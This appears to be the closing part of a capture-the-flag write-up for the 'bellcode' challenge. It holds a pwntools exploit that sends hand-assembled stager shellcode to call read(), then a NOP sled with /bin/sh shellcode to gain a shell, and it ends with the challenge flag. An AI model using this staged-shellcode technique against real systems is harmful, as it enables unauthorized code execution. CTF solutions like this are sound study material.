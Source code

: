 ## Putting it all together ##

```python
#!/usr/bin/env python3
from pwn import * 

p = process("./bellcode")
p = remote("bellcode.chal.imaginaryctf.org", 1337)
context.update(arch="amd64")

"""
so we need to find a way to call read(0, shellcode_buf, N)
1. set rax to 0
2. set rdi to 0
3. set rsi to somewhere in the shellcode buffer 
4. syscall
"""

# rax is already 0
# null out rdi by popping a 0 off the stack into it 
# note: 6 pop rdi's work locally to set rdi to 0 but remotely we need 8
# \x5f                  = pop rdi * 6
# \xbe\x00\xc3\xfa\x00  = mov esi, 0xfac300
# \x0f\x05              = syscall

payload = b"\x5f\x5f\x5f\x5f\x5f\x5f\x5f\x5f\xbe\x00\xc3\xfa\x00\x0f\x05" 
pause()
p.sendline(payload)

# send second stage payload, nopsled + generic sh shellcode
payload = shellcraft.amd64.linux.sh()
p.sendline( (b"\x90" * 200) + asm(payload))

p.interactive()
```

Giving us the flag 

```
ictf{did_mod_5_ring_a_bell_be00c3fa}
```